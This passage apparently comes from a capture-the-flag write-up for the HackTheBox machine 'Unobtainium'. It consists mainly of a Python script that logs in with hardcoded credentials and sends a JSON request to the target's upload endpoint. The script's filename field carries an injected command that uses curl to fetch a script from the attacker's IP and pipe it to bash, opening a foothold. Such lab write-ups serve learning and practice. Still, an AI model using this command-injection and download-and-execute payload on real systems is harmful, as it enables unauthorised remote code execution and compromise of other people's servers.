 <img src="rce.png">

Here's a python script to do it

```python
import requests

headers = {
    'Host': 'unobtainium.htb:31337',
    'Connection': 'keep-alive',
    'Content-Length': '90',
    'Accept': 'application/json, text/javascript, */*; q=0.01',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36',
    'Content-Type': 'application/json',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US',
}

data = '{\\"auth\\":{\\"name\\":\\"felamos\\",\\"password\\":\\"Winter2021\\"},\\"filename\\":\\"& curl 10.10.14.37:8000/x|bash\\"}'

response = requests.post('http://unobtainium.htb:31337/upload', headers=headers, data=data, verify=False)

```

<img src="foothold.png">

